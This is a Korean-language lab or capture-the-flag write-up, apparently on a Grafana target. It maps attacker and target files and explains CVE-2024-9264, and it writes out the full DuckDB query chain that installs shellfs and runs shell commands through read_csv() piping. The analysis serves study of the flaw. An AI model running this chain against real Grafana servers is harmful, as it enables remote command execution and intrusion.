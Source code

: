 **명령어 분석:**

- `/tmp/enum_result.txt`: LinEnum 스크립트 실행 결과가 저장된 파일
- **목적**: 권한 상승 가능한 취약점들을 분석

## 데이터 흐름 완전 분석

### 파일 저장 위치 맵핑

**공격자 시스템 (Kali - 10.10.16.12):**

```
/root/exploit/
├── linenum.sh              # 원본 LinEnum 스크립트
├── CVE-2024-9264.py        # 익스플로잇 도구
└── cookies.txt             # Grafana 세션 쿠키
```

**타겟 시스템 (Ubuntu - 10.10.11.68):**

```
/root/
├── linenum.sh.3            # 다운로드된 스크립트 (중복으로 .3 접미사)

/tmp/
├── grafana_cmd_output      # CVE 명령 실행 결과 임시 저장
└── enum_result.txt         # LinEnum 실행 결과 (최종 분석 대상)
```

### CVE-2024-9264 내부 동작 원리

#### DuckDB 쿼리 체인 분석

```sql
-- 1단계: 기본 연결 테스트
SELECT 1;

-- 2단계: 쉘 확장 모듈 설치
install shellfs from community;

-- 3단계: 쉘 모듈 로드
LOAD shellfs;

-- 4단계: 명령 실행 (핵심 취약점)
SELECT * FROM read_csv('명령어 >/tmp/grafana_cmd_output 2>&1 |');

-- 5단계: 결과 읽기
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```

#### 취약점 발생 지점

- **read_csv()** 함수의 **파라미터 인젝션**
- 파일 경로 대신 **쉘 명령어**가 실행됨
- **파이프(|)** 연산자로 명령 체이닝 가능
